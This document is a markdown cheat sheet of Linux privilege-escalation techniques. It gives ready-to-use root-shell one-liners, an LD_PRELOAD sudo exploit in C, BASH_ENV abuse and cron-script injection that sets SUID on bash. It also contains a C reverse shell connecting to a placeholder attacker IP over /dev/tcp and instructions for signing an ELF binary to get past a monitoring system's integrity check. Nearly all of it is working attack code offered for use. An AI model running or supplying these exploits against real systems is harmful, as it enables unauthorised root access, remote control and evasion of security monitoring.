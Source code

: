 ##  Privilege Escalation via Python

```python
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Spawns a root shell if the script is run with root privileges.

---

##  LD\_PRELOAD + sudo

### 🔹 Exploit example

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run_me_first() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

**Compile:**

```bash
gcc -fPIC -shared -o exploit.so exploit.c
```

**Run:**

```bash
sudo LD_PRELOAD=./exploit.so /usr/bin/ping
```

---

## BASH_ENV + sudo

### 🔹 Exploit example

`BASH_ENV` is an environment variable read by **bash** before executing any non-interactive script.  
If `/etc/sudoers` contains:

```bash
env_keep+="BASH_ENV"
```

then `sudo` will preserve this variable, allowing privilege escalation if you can run a bash script as root.

```bash
echo '/bin/bash -p' > /tmp/root.sh
chmod +x /tmp/root.sh
sudo BASH_ENV=/tmp/root.sh /usr/bin/systeminfo`
```

Here, `/usr/bin/systeminfo` is a root-allowed bash script.  
Before executing it, bash will source `/tmp/root.sh`, spawning a root shell.

--- 
##  Crontab 

###  🔹Where to look:

- `/etc/crontab`
- `/etc/cron.*/*`
- Systemd timers (`systemctl list-timers`)

###  🔹Exploitation Steps:

1. **Identify a writable target**:

   - Check if you can edit a script or file executed by the cronjob.

2. **Inject malicious code**:

   - For example, add a reverse shell or privilege escalation payload to the script:
     ```bash
     #!/bin/bash
     chmod u+s /bin/bash
     ```
   - This will set the SUID bit on `/bin/bash`, allowing root shell access with:
     ```bash
     /bin/bash -p
     ```

3. **Wait for the cronjob to run** — Check the timing configuration of the cronjob. Crontab lines follow this format:

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7) (Sunday is 0 or 7)
# │ │ │ │ │
# * * * * *  user-name  command-to-be-executed
```
---

##  Crontab → SUID bash

```python
os.system('chmod u+s /bin/bash')
```

Then:

```bash
/bin/bash -p
```

> Runs bash with root privileges if the SUID bit is set.

---

##  SUID via C binary

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

> Compiles a binary that spawns a root shell when executed by a script with SUID. Look [[UID]] for more details

---

## Reverse Shell via C binary 

```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1", NULL);
    return 0;
}
```

> Compiles a binary that spawns a  reverse shell on port 1337 when executed by a root srcipt like cronjob (RUID = 0)

---
## ELF Signing Tool

To bypass signature verification by the monitoring system, we signed the ELF binary using:

🔗 [linux-elf-binary-signer GitHub repository](https://github.com/NUAA-WatchDog/linux-elf-binary-signer)

Sign the binary with:
```bash
./elf-sign sha256 key.pem key.pem monitor
```

This generates a signed ELF executable that passes integrity checks during the scan.
